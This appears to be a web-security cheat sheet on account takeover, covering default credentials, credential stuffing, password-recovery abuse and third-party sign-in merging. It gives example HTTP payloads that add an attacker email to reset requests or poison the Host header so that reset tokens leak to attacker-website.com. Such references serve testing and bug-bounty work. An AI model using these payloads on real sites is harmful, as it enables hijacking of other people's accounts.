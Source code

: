 # Adding or changing email addresses

If the operations of adding a new email address or changing an existing one do not require password confirmation, session hijacking, XSS or CSRF can lead to account takeover.

# Default credentials

Try to login with default credentials into admin panels, third-party services, middleware, and etc.

You can use the following lists:
- [Default Credentials Cheat Sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet)
- [SecLists Default Credentials](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials)

# Credential stuffing

[Credential stuffing](https://owasp.org/www-community/attacks/Credential_stuffing) is a search for leaked usernames and passwords for use in popular online services, as most users are "comfortable" using the same password everywhere.

You can use the following lists:
- [PWDB - New generation of Password Mass-Analysis](https://github.com/ignis-sec/Pwdb-Public)
- [SecLists](https://github.com/danielmiessler/SecLists)
- [Probable Wordlists - Version 2.0](https://github.com/berzerk0/Probable-Wordlists)

Resources:
- [Writeup: Credential stuffing in Bug bounty hunting](https://krevetk0.medium.com/credential-stuffing-in-bug-bounty-hunting-7168dc1d3153)
- Zeronights 2021: Valeriy Shevchenko – Fantastic bugs and where to find them
    - [Video](https://www.youtube.com/watch?v=5rDGNm3DJfU)
    - [Slides](https://zeronights.ru/wp-content/uploads/2021/09/valeri_shevchenko_fantastic_b%CC%B6e%CC%B6a%CC%B6s%CC%B6t%CC%B6s%CC%B6_bugs_and_where_to_find_them_1.pdf)

# OAuth 2.0

{% embed url="https://0xn3va.gitbook.io/cheat-sheets/web-application/oauth-2.0-vulnerabilities" %}

# Password recovery

Password recovery functionality is often implemented by sending a one-time link to email. 

## Several email addresses

Sometimes you can takeover an account by specifying several email addresses in the password recovery request. For example, if an application is vulnerable to such an attack, on a similar request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/json
Content-Length: 57

{"email": ["victim@website.com", "attacker@website.com"]}
```

an application will send the same recovery link to two email addresses.

If an app accepts form data, try the following payloads:

```http
email=victim@website.com&attacker@website.com
email=victim@website.com,attacker@website.com
email=victim@website.com|attacker@website.com
email=victim@website.com%20attacker@website.com
email=victim@website.com%09attacker@website.com
...
```

## Host header poisoning

Applications can use the `Host` header value for generating a password recovery link. If the application is vulnerable to `Host` header poisoning, you could affect the link and specify its own domain name. As a result, if the victim follows the link from the email, the recovery token will leak to the you.

There are several ways to implement `Host` header poisoning.

### X-Forwarded-Host header

The [X-Forwarded-Host](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-Host) header is a header for identifying the original host requested by the client in the `Host` request header. Example of vulnerable request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

References:

- [Write up: Account Takeover Through Password Reset Poisoning](https://medium.com/@vbharad/account-takeover-through-password-reset-poisoning-72989a8bb8ea)

### X-Host header

`X-Host`, like `X-Forwarded-Host`, sometimes is used to identifying the original host. Example of vulnerable request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
X-Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

### Several host header

You can try specifying several `Host` headers. Example of vulnerable request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

### Host header replacement

You can try replace the `Host` header on your domain. Examples of vulnerable requests:

```http
POST /users/password HTTP/1.1
Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

```http
POST /users/password HTTP/1.1
Host: attacker-website.com/vulnerable-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

References:

- [Write up: Password Reset link hijacking via Host Header Poisoning](https://hackerone.com/reports/226659)

# Third-party sign-in or sign-up

Applications that implement third party sign-in or sign-up often identify users based on the attached email address that the third party application sends. In such cases, you can try sign-in or sign-up with two different third-party applications that are linked to the same email address. Sometimes these two accounts can be joined and you will have access to the victim's account by sign-in or sign-up with your third-party application account.

For example, suppose a victim sign-in or sign-up to `vulnerable-website.com` with `third-party-app1.com`, which is linked to `victim@website.com`. To exploit this, you can try the following:

1. Create an account at `third-party-app2.com` and enter the `victim@website.com` email address (ideal if email confirmation is not required),
2. Try sign-in or sign-up at `vulnerable-website.com` through `third-party-app2.com`,
3. If the application is vulnerable, then you will have access to the victim's account.

References:

- [Write up: account takeover https://teamplay.qiwi.com](https://hackerone.com/reports/439207)
